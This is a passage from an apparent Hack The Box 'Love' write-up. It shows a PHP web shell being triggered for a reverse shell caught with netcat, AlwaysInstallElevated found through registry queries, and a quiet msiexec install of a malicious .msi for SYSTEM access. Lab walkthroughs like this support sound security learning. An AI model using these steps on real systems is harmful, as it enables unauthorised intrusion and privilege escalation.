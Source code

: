 I loaded this URL `http://love.htb/images/php_shell_windows.php` and captured the callback →

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Love]
└─$ rlwrap nc -lvnp 445
listening on [any] 445 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.10.239] 50243
SOCKET: Shell has connected! PID: 6852
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
love\phoebe

C:\xampp\htdocs\omrs\images>hostname
Love

C:\xampp\htdocs\omrs\images>
```
{: .nolineno}

In this case I have no Impersonation privileges so I ran winpeas and got this exploitable →

![Untitled](Love%20e2ce3b6768674d0c8597144c9f5b992b/Untitled%2011.png)

In this privilege of **AlwaysInstallElevated :**

I**f** these 2 registers are **enabled** (value is **0x1**), then users of any privilege can **install** (execute) `*.msi` files as NT AUTHORITY\**SYSTEM**.

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
{: .nolineno}

**MSI Installation**

To execute the **installation** of the malicious `.msi` file in **background:**

```powershell
msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\alwe.msi
```
{: .nolineno}

To exploit this vulnerability you can use: *`exploit/windows/local/always_install_elevated`* Metasploit help.

I checked on this system and it has that privileges to do so →

```powershell
C:\Users\Phoebe>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\Users\Phoebe>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
{: .nolineno}
